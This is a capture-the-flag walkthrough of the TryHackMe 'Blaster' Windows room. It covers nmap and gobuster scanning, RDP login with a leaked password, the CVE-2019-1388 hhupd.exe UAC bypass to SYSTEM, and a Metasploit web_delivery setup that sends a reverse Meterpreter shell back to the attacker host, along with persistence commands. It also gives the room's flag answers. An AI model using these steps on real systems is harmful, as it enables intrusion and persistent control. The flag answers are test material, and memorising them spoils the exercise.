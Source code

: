 # Blaster

## Mission Start!

The CTF background notes that we’ll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we’ll be attacking is at 10.10.223.185. As usual, we’ll start out with an [nmap](nmap.md) scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
```

Which gives us:

```Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? — 2

Looks like IIS running on port 80. Let’s go take a peek.

…And, it’s just the default IIS “hello world” page. Looks a damn sight prettier than Apache’s.

FLAG 2: What is the title of the webserver’s index page? — IIS Windows Server

Since there’s nothing obvious here (and because the CTF is prompting us to do so), let’s sic [gobuster](gobuster.md) on this to see if there’s anything interesting that’s not linked to the (default) index page.

```bash
gobuster -t 10 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? — /retro

Browsing to this directory reveals an entire “Retro Fanatics” website. All posts are by “Wade”.

FLAG 4: What username is associated with this hidden directory? — Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade’s password?

FLAG 5: What potential password is associated with this user? — parzival

Let’s load up [XFreeRDP](xfreerdp.md) and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? — `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There’s no obvious files when pocking around except an hhupd.exe file on the desktop, and IE’s history is empty.

Since I know we’re looking for a CVE name, at this point I just used the Windows File Explorer to search Wade’s home directory for “CVE”. And lo-and-behold, there’s a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of [the MITRE CVE page on CVE-2019-1388](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)).

FLAG 7: What CVE was the initially compromised user researching? — CVE-2019-1388

(I feel like the approach I just used — making an educated guess about what the CTF was looking for and then just searching for it — is kind of a cop-out. *But*, the hint for this question states that I should check IE’s history, which I did… So perhaps the room’s broken?)

Anyways, I’m guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it’s badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? — hhupd.exe

In fact, a search for “CVE-2019-1388 exploit” pulls up [this page](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/) as its first result, which references hhupd.exe and helpfully links to [a YouTube video demoing how this exploit works](https://www.youtube.com/watch?v=3BQKpPNlTSo). It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user’s exploit? — `nt authority\system`

The final flag is in the Administrator’s Desktop folder.

FLAG 10: What are the contents of `root.txt`? — `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn’t immediately obvious in [Metasploit](metasploit.md); after selecting `exploit/multi/script/web_delivery` we’ll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in [Metasploit](metasploit.md)? — 2

Let’s set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get [Metasploit](metasploit.md) to deliver the exploit on the right interface.)

This particular exploit outputs and encoded [PowerShell](powershell.md) script and then starts a local listener to deliver the actual [Meterpreter](metasploit.md) shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of [Meterpreter](metasploit.md) *and* the `run -j` command. I’m not sure why…)

FLAG 12: What command can be used in [Meterpreter](metasploit.md) to establish on-boot persistence on this machine? — `run persistence -X`

(NOTE: [Meterpreter](metasploit.md) flags this as being deprecated now; the modern pattern seems to be to background [Meterpreter](metasploit.md) and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

- - - -

👤 Nathan Acks
📅 December 6, 2021
